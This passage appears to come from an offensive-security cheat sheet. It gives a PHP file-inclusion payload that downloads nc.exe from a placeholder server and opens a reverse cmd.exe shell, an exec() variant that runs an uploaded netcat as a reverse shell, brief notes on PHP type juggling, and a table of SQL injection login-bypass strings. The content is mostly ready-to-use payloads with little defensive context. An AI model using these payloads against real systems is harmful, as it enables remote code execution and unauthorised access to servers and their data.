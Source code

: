 This can be used in a RFI/LFI to download nc.exe from the specified
server then run it.

<table>
<tbody>
<tr class="odd">
<td><p>&lt;?php</p>
<p>        file_put_contents("nc.exe", fopen("http://<strong>&lt;server&gt;</strong>/nc.exe", 'r'));</p>
<p>        shell_exec("nc.exe -nv <strong>&lt;server&gt;</strong> <strong>&lt;port&gt;</strong> -e cmd.exe");</p>
<p>?&gt;</p></td>
</tr>
</tbody>
</table>

Using exec() to change directories and run a file uploaded elsewhere.

|                                                                                |
| ------------------------------------------------------------------------------ |
| \<?php exec('cd uploads && nc.exe -nv **\<server\> \<port\>** -e cmd.exe');?\> |

<span id="anchor-109"></span>Type Juggling

<span id="anchor-110"></span>PHP Loose Comparison

  - [*https://www.php.net/manual/en/types.comparisons.php*](https://www.php.net/manual/en/types.comparisons.php)

<span id="anchor-111"></span>PHP String Conversions

PHP duplicated the string conversion method used by Unix's strtod
command. Using this type of string conversion with Loose comparisons
could lead to type juggling.

  - [*https://www.php.net/manual/en/language.types.string.php\#language.types.string.conversion*](https://www.php.net/manual/en/language.types.string.php#language.types.string.conversion)
  - [*http://manpages.ubuntu.com/manpages/bionic/pt/man3/strtod.3.html*](http://manpages.ubuntu.com/manpages/bionic/pt/man3/strtod.3.html)

<span id="anchor-112"></span>SQL Injection

<span id="anchor-113"></span>SQL Tests

|            |            |             |             |             |              |
| ---------- | ---------- | ----------- | ----------- | ----------- | ------------ |
| or 1=1     | 'or 1=1    | "or 1=1     | or 1=1-     | 'or 1=1-    | "or 1=1-     |
| or 1=1\#   | 'or 1=1\#  | "or         | 1=1\#       | or 1=1/\*   | 'or 1=1/\*   |
| "or 1=1/\* | or 1=1;%00 | 'or 1=1;%00 | "or 1=1;%00 | 'or'        | 'or          |
| 'or'-      | 'or-       | or a=a      | 'or a=a     | "or a=a     | or a=a-      |
| 'or a=a-   | "or a=a-   | or 'a'='a'  | 'or 'a'='a' | "or 'a'='a' | ')or('a'='a' |
| ")"a"="a"  | ')'a'='a   | 'or"='      | ' or 1=1--  | " or 1=1--  | or 1=1--     |
| " or 1=1\# |            |             |             |             |              |
